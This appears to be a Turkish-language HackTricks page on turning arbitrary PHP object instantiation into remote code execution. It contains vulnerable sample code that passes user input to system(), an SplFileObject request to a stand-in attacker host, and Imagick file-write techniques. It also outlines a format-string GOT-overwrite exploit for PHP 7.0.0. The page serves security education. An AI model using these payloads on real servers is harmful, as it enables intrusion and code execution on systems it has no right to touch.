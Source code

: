 # PHP - RCE: nesne oluşturma suistimali: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

This is basically a summary of [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Giriş

Rastgele yeni nesnelerin oluşturulması, ör. `new $_GET["a"]($_GET["a"])`, Remote Code Execution (RCE)'ye yol açabilir; detaylar bir [**inceleme**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Bu belge RCE elde etmek için çeşitli stratejileri özetlemektedir.

## RCE: Özel Sınıflar veya Otomatik Yükleme ile

`new $a($b)` sözdizimi, bir nesne örneği oluşturmak için kullanılır; burada **`$a`** sınıf adını, **`$b`** ise konstruktöre geçirilen ilk argümanı temsil eder. Bu değişkenler GET/POST gibi kullanıcı girdilerinden (string veya dizi olabilir) veya JSON'dan (farklı tiplerde görünebilir) elde edilebilir.

Aşağıdaki kod parçasını düşünün:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Bu durumda, `$a`'yı `App` veya `App2` olarak, `$b`'yi ise bir sistem komutu (ör. `uname -a`) olarak ayarlamak, o komutun çalıştırılmasıyla sonuçlanır.

**Autoloading functions** bu tür sınıflara doğrudan erişilemiyorsa kötüye kullanılabilir. Bu fonksiyonlar gerektiğinde dosyalardan sınıfları otomatik olarak yükler ve `spl_autoload_register` veya `__autoload` kullanılarak tanımlanır:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Autoloading davranışı PHP sürümlerine göre değişir ve farklı RCE olanakları sunar.

## Yerleşik Sınıflarla RCE

Özel sınıflar veya autoloader'lar yoksa, **yerleşik PHP sınıfları** RCE için yeterli olabilir. Bu sınıfların sayısı PHP sürümüne ve yüklü eklentilere bağlı olarak yaklaşık 100 ile 200 arasında değişir. `get_declared_classes()` kullanılarak listelenebilirler.

İlgili yapıcılar reflection API aracılığıyla tespit edilebilir; örnek ve bağlantı şu adreste gösterilmektedir: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**Belirli yöntemlerle RCE şunları içerir:**

### **SSRF + Phar Deserialization**

`SplFileObject` sınıfı yapıcısı aracılığıyla SSRF'ye izin verir; herhangi bir URL'ye bağlantıya olanak tanır:
```php
new SplFileObject('http://attacker.com/');
```
SSRF, Phar protokolünü kullanarak PHP 8.0'dan önceki sürümlerde deserialization saldırılarına yol açabilir.

### **PDO'ların İstismarı**

PDO sınıfının yapıcı fonksiyonu, DSN strings aracılığıyla veritabanlarına bağlanmaya izin verir; bu da potansiyel olarak dosya oluşturma veya diğer etkileşimlere olanak sağlayabilir:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP'in 5.3.22 ve 5.4.12'ye kadar olan sürümleri, libxml2 sürümüne bağlı olarak `SoapClient` ve `SimpleXMLElement` constructor'ları aracılığıyla XXE saldırılarına açıktı.

## RCE via Imagick Extension

Bir projenin **bağımlılıklarının** analizinde, yeni nesneler oluşturarak **Imagick**'in **komut çalıştırma** için kullanılabileceği keşfedildi. Bu, zafiyetlerin istismar edilmesi için bir fırsat sunar.

### VID parser

VID parser'ın dosya sistemindeki herhangi bir belirtilen yola içerik yazma yeteneği tespit edildi. Bu, bir PHP shell'in web'e erişilebilir bir dizine yerleştirilmesine ve Remote Code Execution (RCE) elde edilmesine yol açabilir.

#### VID Parser + File Upload

PHP'nin yüklenen dosyaları geçici olarak `/tmp/phpXXXXXX` içinde sakladığı not edildi. Imagick içindeki VID parser, **msl** protokolünü kullanarak dosya yollarındaki joker karakterleri işleyebilir ve böylece geçici dosyanın seçilen bir konuma taşınmasını sağlar. Bu yöntem, dosya sistemi içinde rastgele dosya yazma elde etmek için ek bir yol sunar.

### PHP Crash + Brute Force

[**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) içinde tanımlanan bir yöntem, silinmeden önce sunucu çökmesine neden olan dosyaların yüklenmesini içeriyor. Geçici dosyanın adını brute-forcing ile tahmin ederek, Imagick'in rastgele PHP kodu çalıştırması mümkün hale geliyor. Ancak bu teknik yalnızca eski bir ImageMagick sürümünde etkili bulundu.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Kullanıcı girdisi sınıf adını kontrol ettiğinde (ör. `new $_GET['model']()`), PHP 7.0.0 `Throwable` yeniden düzenlemesi sırasında geçici bir hata getirdi; motor çözümleme sırasında sınıf adını yanlışlıkla printf format string'i olarak ele aldı. Bu, PHP içinde klasik printf-style primitiflerin kullanılmasını sağlar: `%p` ile leaks, genişlik belirleyicileriyle yazma-sayısı kontrolü ve süreç içi işaretçilere (ör. ELF build'lerinde GOT kayıtlarına) karşı `%n` ile rastgele yazmalar.

Minimal reproducible zafiyet örneği:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (from the reference):
- Sınıf adında `%p` ile adresleri leak ederek yazılabilir bir hedef bulun:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Pozisyonel parametreleri ve genişlik belirticilerini kullanarak tam bir byte sayısı ayarlayın, sonra `%n` ile bu değeri yığın üzerinde erişilebilir bir adrese yazın; amaç bir GOT slotuna (ör. `free`) işaret ederek kısmi overwrite ile `system`'e çevirmek.
- Bir sınıf adı içinde bir shell pipe geçirerek hijacked fonksiyonu tetikleyin ve `system("id")`'ye ulaşın.

Notes:
- Works only on PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); fixed in subsequent releases. Severity: critical if arbitrary class instantiation exists.
- Tipik payloads birçok `%p` zincirleyerek yığını gezer, sonra kısmi overwrite'ı gerçekleştirmek için `%.<width>d%<pos>$n` kullanır.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
